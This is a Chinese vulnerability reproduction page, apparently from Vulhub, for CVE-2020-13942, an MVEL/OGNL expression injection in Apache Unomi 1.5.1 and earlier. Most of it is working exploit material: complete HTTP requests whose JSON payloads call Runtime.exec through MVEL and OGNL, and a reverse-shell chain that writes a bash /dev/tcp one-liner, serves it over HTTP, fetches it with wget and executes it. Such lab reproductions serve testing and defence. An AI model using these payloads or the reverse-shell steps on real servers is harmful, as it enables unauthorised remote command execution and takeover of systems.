




# Apache Unomi 远程表达式代码执行漏洞 CVE-2020-13942

## 漏洞描述

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在Apache Unomi 1.5.1级以前版本中，存在一处表达式注入漏洞，远程攻击者通过MVEL和OGNL表达式即可在目标服务器上执行任意命令。

参考链接：

- https://www.checkmarx.com/blog/apache-unomi-cve-2020-13942-rce-vulnerabilities-discovered/
- https://github.com/eugenebmx/CVE-2020-13942

## 环境搭建

Vulhub运行如下命令启动一个Apache Unomi 1.5.1的服务器：

```
docker-compose up -d
```

环境启动后，通过`http://your-ip:8181`或`https://your-ip:9443`即可访问到Unomi的API。


## 漏洞复现

通过8181和9443两个端口均可触发漏洞，以下以9443为例。

通过MVEL表达式执行任意命令，例如：`touch /tmp/awesome_poc`

```
POST /context.json HTTP/1.1
Host: your-ip:9443
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```



通过OGNL表达式执行任意命令：

```
POST /context.json HTTP/1.1
Host: your-ip:9443
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1064

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```



进入容器，可见命令已执行成功：



### 反弹shell

通过OGNL表达式执行任意命令，反弹shell。

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

成功接收反弹shell：



